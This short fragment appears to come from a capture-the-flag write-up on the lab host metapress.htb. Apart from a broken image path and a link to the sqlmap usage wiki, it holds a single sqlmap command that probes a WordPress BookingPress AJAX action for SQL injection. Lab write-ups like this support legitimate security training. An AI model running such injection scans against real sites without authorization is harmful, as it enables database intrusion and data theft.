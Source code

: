 https://github.com/sqlmapproject/sqlmap/wiki/Usage


```shell
sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data "total_service=100&_wpnonce=e8bdc0f1dc&action=bookingpress_front_get_category_services&category_id=1"
```


